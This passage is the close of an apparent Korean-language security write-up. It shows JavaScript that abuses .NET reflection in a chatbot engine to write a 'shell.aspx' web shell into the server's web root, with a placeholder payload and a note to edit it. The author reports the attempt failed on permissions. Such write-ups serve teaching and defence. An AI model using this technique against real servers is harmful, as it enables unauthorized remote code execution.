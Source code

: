 다른 방법으로는, 서버의 웹 루트에 shell.aspx 파일을 작성하여 라이브러리에서 원격 코드 실행을 얻을 수 있습니다. 그러나 불행하게도 웹 루트에 쓰기 권한이 없었지만 참고를 위해 코드를 여기에 남깁니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var fileTypeMethods = typesArray.GetValue(2008).GetMethods();
var writeFileMethod = fileTypeMethods.GetValue(51);
var writeFileArgs = this.ProcessChat_Helper.GetAvailableLanguages();
writeFileArgs.SetValue("c:\\ChatBot\\wwwroot\\shell.aspx", 0);
writeFileArgs.SetValue("\x7a\x34\x6b\x69", 1); // <--  여기를 수정하세요
writeFileMethod.Invoke(null, writeFileArgs);
```

이제 http://`ip`/shell.aspx 로 이동하면 쉘을 찾을 수 있습니다.

여기까지 오신 당신에게 경의를 표하며 읽기를 즐겼고 새로운 것을 배웠기를 바랍니다. 궁금한 점이 있으면 LinkedIn에서 연락해 주세요.
